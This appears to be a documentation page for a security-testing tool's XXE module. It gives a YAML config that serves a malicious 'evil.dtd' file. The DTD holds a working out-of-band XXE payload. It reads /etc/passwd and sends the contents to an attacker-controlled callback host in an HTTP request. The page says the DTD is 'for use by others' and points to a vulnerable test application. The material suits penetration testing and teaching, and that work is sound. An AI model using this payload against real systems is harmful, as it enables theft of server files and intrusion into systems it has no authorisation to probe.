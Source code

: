```yaml
---
title: XXE DTD
description: More XXE
weight: 1
pattern: /evil\.dtd$
is_final: true
data:
  headers:
    Content-Type: text/xml
  body: |-
    <!ENTITY % payl SYSTEM "file:///etc/passwd">
    <!ENTITY % int "<!ENTITY % trick SYSTEM 'http://{{ .Host }}:80/{{ .NotifyString }}/xxe?p=%payl;'>">

---
```


### /dt

A vulnerable application for testing is in [../../../../cmd/xodbox-validator](../../../../cmd/xodbox-validator)


### /evil.dtd

dtd for use by others
